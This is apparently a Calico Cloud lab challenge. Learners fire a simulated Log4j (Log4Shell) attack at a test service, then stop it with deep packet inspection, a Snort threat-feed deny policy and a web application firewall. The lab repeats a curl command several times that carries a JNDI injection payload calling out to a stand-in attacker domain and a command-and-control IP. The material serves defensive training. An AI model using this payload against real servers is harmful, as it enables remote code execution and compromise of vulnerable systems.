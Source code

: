 ```yaml
---
slug: waf-dpi
id: km7fd7bgqviq
type: challenge
title: Mitigate the risk of Log4j using DPI and WAF
teaser: Apply security policies to reduce the attack surface.
notes:
- type: image
  url: ../assets/module03.png
tabs:
- title: Shell
  type: terminal
  hostname: controlplane
- title: Calico Cloud
  type: website
  hostname: controlplane
  url: https://www.calicocloud.io/home
  new_window: true
difficulty: basic
timelimit: 900
---
```


Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Check the running `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.

![Image Description](../assets/multitool-to-vr.png)

- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.

![Image Description](../assets/vr-to-public.png)

Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.

![Image Description](../assets/dpi-alert.png)

![Image Description](../assets/alerts-page.png)


Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.

![Image Description](../assets/snort-threatfeeds.png)
![Image Description](../assets/threatfeed-alert.png)


Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Run the malicious query that will leverage JNDI lookup method and connects to the attacker C&C server.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

```bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

